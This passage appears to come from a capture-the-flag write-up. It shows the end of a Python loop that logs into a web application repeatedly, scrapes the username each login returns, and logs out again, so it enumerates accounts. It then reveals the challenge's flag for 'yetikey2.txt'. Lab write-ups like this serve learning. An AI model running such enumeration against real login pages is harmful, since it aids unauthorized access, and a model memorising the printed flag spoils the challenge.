 ```python
    res = r.text

    # Check if we get an error message
    if re.search(error_message, res):
        break

    # Fetch username we are logged in as and add it to the list
    new_username = re.search(r'Welcome (\w+)!', res).group(1)
    print('Username found:', new_username)
    usernames.append(new_username)

    # Logout of the account to enable further login attempts
    requests.get(url + '/logout.php', cookies=cookies, headers=headers)

# Print the final results with each username on a new line
print('\nEnumeration complete!')
```
And next, lets login as `Frosteau` to reveal yetikey2.txt.

![Frosteau](Images/frosteau.gif)



The content of `yetikey2.txt` is `2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK`.
